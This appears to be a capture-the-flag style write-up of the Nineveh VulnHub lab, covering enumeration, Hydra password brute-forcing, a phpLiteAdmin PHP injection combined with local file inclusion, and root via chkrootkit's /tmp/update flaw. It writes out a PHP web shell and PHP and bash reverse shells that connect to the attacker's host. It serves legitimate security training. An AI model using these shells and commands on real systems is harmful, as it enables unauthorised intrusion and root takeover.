






# init
This is a writeup for the vulnhub version of Nineveh. To make it easier for future me to look up utilized functions, this section contains code snippets.

+ cmds via PHP `<?php echo system($_REQUEST["arg"]); ?>`
+ php shell `'<?php $sock=fsockopen(“192.168.0.110”,1234);exec(“/bin/bash -i <&3 >&3 2>&3”);?>'`
+ bash shell `/bin/bash -i > /dev/tcp/192.168.0.110/5555 0<&1 2>&1`
+ [process diff](#privilege-escalation)


## Enumeration

The initial nmap scan reveals services at port 80 and 443, which is an indicator for a web server accessible via http and https. 
Enumerating directories and files with nikto and dirbuster with the default wordlists returns only 3 files for the service on port 80. One of them is an `info.php` script. The script generates a view from general information of the underlying system. This could come in handy at some point.



In the next step, directory enumeration for the service on port 443 is performed. Scanning with `dirb https://192.168.0.150` reveals a directory called `db` among some common and non-informative files. When accessing the directory, a visitor gets forwarded to an index.php file, allowing log in to a phpliteadmin v1.9 instance. By using searchsploit, this version can be identified as vulnerable to PHP code injection, though it requires authentification.



## Getting log in credentials
Since none of the sites are exposing functionality that could be compromised, it is probably necessary to acquire log in credentials through a dictionary attack.
The following hydra command is issued: `hydra -l nop -P /usr/share/wordlists/rockyou.txt 192.168.0.150 https-post-form /db/index.php:"login=Log+In&password=^PASS^&proc_login=true:Incorrect password."`. 
A first attempt was performed with the top 10k passwords from [Daniel Miesslers SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells). Since this did not result in a match, a second attack using `rockyou.txt` was started.
After approximately 1000 tries, a successfull login was detected for the password _password123_.



From here on forward, we are able to create databases, tables and we can also create arbitrary files in `/var/tmp`. Furthermore, this version of phpliteadmin allows to create executable php scripts by inserting php code as a field. This process is illustrated in the corresponding searchsploit PoC `searchsploit -x exploits/php/webapps/24044.txt`.
Possible php shell code can be taken from pentestmonkey , e.g. `'<?php $sock=fsockopen(“192.168.0.110”,1234);exec(“/bin/bash -i <&3 >&3 2>&3”);?>'`.

Since we cannot execute the file in any way from the phpliteadmin interface, we have to find another way. Back to the port 80 service, a scan with a bigger wordlist is performed `dirb http://192.168.0.150 /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`. This reveals the `department` directory and another login page. 

Using `hydra -l admin -P ../bsides_vancouver_2018/10-most-common.txt 192.168.0.150 http-post-form /department/login.php:"username=^USER^&password=^PASS^:Invalid"` the password `1q2w3e4r5t` for the user `admin` is discovered. In this case, the _10k-most-commont.txt_ password list from Daniel Miesslers SecLists was enough to find a match. This means not having to fall back to `rockyou.txt`, which saves time due to the size of the list.



As can be seen from the URL in the above image, a local file is opened and returned by one of the department pages. Trying out different other files (`/etc/passwd`, `../../../../../../../etc/passwd`) does not seem to work, because no input is returned. But when the file identifier of the file in use is modified a `file not found` error message is returned. Further testing indicates a local file inclusion vulnerability with restrictions regarding the file name.

## Getting a shell
At this point I had access to both web pages and could create and modify local files through the database. The files were furthermore accessible via the local file inclusion. 
In combination, this allowed for remote code execution.

Analogue to the procedure described by the Code Execution PoC from searchsploit, a table with one field was created. As the fieldname, the following php code was used `<?php echo system($_REQUEST["arg"]); ?>`. This allowed to issue multiple commands by specifying them as parameters for the request. To get a shell on the system, burp suite was used to allow for easier encoding and manipulation of request headers and parameters. 
To be able to execute the script it had to be named `ninevehNotes.php`. The file name was required due to the restriction regarding the local file inclusion.



Since the vulnhub version seemed to lack a netcat binary, and usage of bash shells failed, the php shell from [pentestmonkey](pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) was used. Directly executing the php shell by creating a table entry from it failed for unknown reasons. Therefor it was sent as an URL encoded argument to the `echo system` php file via burp suite.
This basic shell can then be upgraded by using the python pty module and sending the shell to background, and setting stty options.



Looking through the home directory only one userdir can be found `/home/amrois`. It contains a user.txt file which is only readable by the user, so we have to come back later to this.

## privilege escalation
My general internal enumeration process consists of checking SUID binaries with
`find / -perm /4000 2>/dev/null`, checking `/etc/crontab` and crontabs of available users, looking for unique processes in `ps aux` and for network services with `netstat -tulpen` and `ss -tlpn`, as well as data in the user directories.
Among the network services was SSH, but due to a lack of available user account data I did not consider following this lead.

After a while of looking around I stumbled onto the `/report` directory, which is not usually found in the file system root.
Checking the files indicated recent write activity. An unknown process is generating one file every minute.
To identify the process I used a diff of the process list, after unsuccessfully trying to catch it via a similar approach using `lsof`.
Since not much is writeable by the `www-data` user, the script was build in `/tmp`.
```
#!/bin/bash

IFS=$"\n" # set field separator to newline, instead of space
stuffo=$(ps aux)
while true; do
  stuff=$(ps aux)
  diff <(echo $stuffo) <(echo $stuff)
  sleep 1
  stuffo=$stuff
done
```
The script is not optimal since it prints unnecessary data and processes, due to containg the process identifier. I had two processes switching pid with every diff performed, this generated some noise but was still acceptable. I might be able to eliminate the noise by using `cut` to trim the data or by finding an option for `ps` that returns only the process name.  
As for the process doing the writes, there were two in question `knockd` and `chkrootkit`.
By looking them up, it was clear from the log files, that `chkrootkit` was responsible for these logs, because they contained logging output indicating a scanner.
Additionally a searchsploit entry exists for chkrootkit, revealing that arbitrary code located in `/tmp/update` gets executed by it. Since the service runs as root, this could lead to root access.

## Getting root
To get root from chkrootkit the file `/tmp/update` was created with the following content:

```
#!/bin/bash
/bin/bash -i > /dev/tcp/192.168.0.110/5555 0<&1 2>&1
```

After waiting for around a minute the root shell connected. 